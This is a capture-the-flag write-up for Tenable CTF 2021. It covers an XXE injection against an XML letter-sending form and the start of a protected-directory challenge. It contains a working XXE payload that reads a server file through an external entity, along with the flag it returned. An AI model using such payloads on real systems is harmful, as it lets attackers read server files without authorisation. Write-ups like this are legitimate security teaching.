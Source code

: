 # Tenable CTF 2021

We only list the interesting challenges as some required no knowledge or skill at all.

## Web

### Send A Letter
We got a frontend that sends XML requests to a webserver. The request looks like this after we put some values into the fields:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<letter>
    <from>111</from>
    <return_addr>222</return_addr>
    <name>333</name>
    <addr>444</addr>
    <message>555</message>
</letter>
```
After a successfull request we get the following alert:
```
Data: Message to 333 appended to /tmp/messages_outbound.txt for pickup. Mailbox flag raised.
Status: success
```
The response contains one of the values we initally passed to the form. This means that the XML got probably parsed on the server side. So let's look for XML parser exploits!

At first we tried some php-xmlrpc exploit code which didn't work. After that we discovered what XXE's are. We tried some POC payloads from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection) and this one worked:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "file:///tmp/messages_outbound.txt">
]>
<letter>
    <from>111</from>
    <return_addr>222</return_addr>
    <name>&sp;</name>
    <addr>444</addr>
    <message>555</message>
</letter>
```
The response contained the flag
```
flag{xxe_aww_yeah}
```
---
### Protected Directory
The task was to find a flag hidden inside a protected directory on a webserver. We tried some common paths and finally got a `401 Unauthorized` on `/admin`.
